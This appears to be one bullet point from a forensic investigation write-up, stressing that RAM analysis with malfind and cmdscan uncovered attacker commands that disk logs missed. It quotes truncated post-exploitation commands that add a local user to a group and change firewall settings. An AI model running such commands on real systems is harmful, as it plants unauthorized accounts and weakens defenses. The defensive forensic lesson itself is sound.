- **Volatile memory artifacts filled gaps that disk and logs couldn't.** Timestamped web server logs proved the exploitation timeline, but the actual injected command strings (`net localgroup ... hacker /add`) and console history (`netsh firewall ...`) only surfaced through `malfind`/process memory dumps and `cmdscan` against the RAM capture — underscoring why memory acquisition alongside disk imaging is essential when logs alone don't capture post-exploitation command execution.